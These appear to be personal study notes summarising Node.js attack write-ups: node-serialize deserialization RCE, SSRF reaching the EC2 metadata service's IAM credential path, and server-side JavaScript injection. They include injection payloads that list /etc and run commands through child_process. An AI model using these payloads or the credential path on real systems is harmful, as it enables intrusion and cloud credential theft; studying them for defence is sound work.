 ### [Exploiting Node.js deserialization bug for Remote Code Execution](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

- Untrusted data passed into unserialize() function  in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE).
 
- `serialize-node 0.0.4`
- Cookies value doesn't sanitize the input.
- eval() is use for deserialisation
- [Node Shell Generator](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)
- You get shell once the server deserialize the cookie ... run the listerer after the request is sent.
- Server decode the base64 value, so encodeing the serialize shell is needed.
 

### [HACKING NODE SERIALIZE](https://blog.websecurify.com/2017/02/hacking-node-serialize.html)

- a node.js app that uses Math.random() is not cryptographically secure.
- trivial to predict the next number given two outputs of the random number generator.
 
cntd... later

### [Exploiting Server Side Request Forgery on a Node/Express Application (hosted on Amazon EC2)](http://sethsec.blogspot.com/2015/12/exploiting-server-side-request-forgery.html) 

 - This means that the server is taking the URL I specified, making a request on my behalf, and then returning the result to me. That right there is SSRF. 
 - https://github.com/sethsec/Nodejs-SSRF-App.git
 - Needle.js (which is what makes the SSRF request). 
 - ifconfig.pro 
 - Accessing the Amazon EC2 Metadata Service -  169.254.169.254
 - /latest/dynamic/instance-identity/document
 -  this request allows an attacker to retrieve the temporary security credentials for the "admins" role, which would allow an attacker to control access to your AWS resources.  :/latest/meta-data/iam/security-credentials/admins
 - http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
 - 
 
### [Node.Js Server-Side Javascript Injection Detection & Exploitation](https://blog.gdssecurity.com/labs/2015/4/15/nodejs-server-side-javascript-injection-detection-exploitati.html)

 - Burp suites supports SSJS
 - Sleep test still the best aprouch to detech CI as it can detent Blind spot also.
 
			preTax=1;
			var cd;
			var d=new Date();
			do{
			cd=new Date();
			}while(cd-d<10000)
 
 - Error message:

			payload-
			preTax=1;response.end('testvalue9000')
			or
			preTax=1;res.end('testvalue9000')

			Response - 
			ReferenceError: response is not defined

 - Exploitation
	
			Directory Listing
			
				preTax=1;res.end(require('fs').readdirSync('/etc').toString())


	 - child_process allows us to make calls to the OS. 
		 
				preTax=1;
				var exec = require('child_process').exec; 
				var out = exec('touch /tmp/q234f');

 - SpiderMonkey is alos a king of javascriptEngine used my MongoDB>3.2

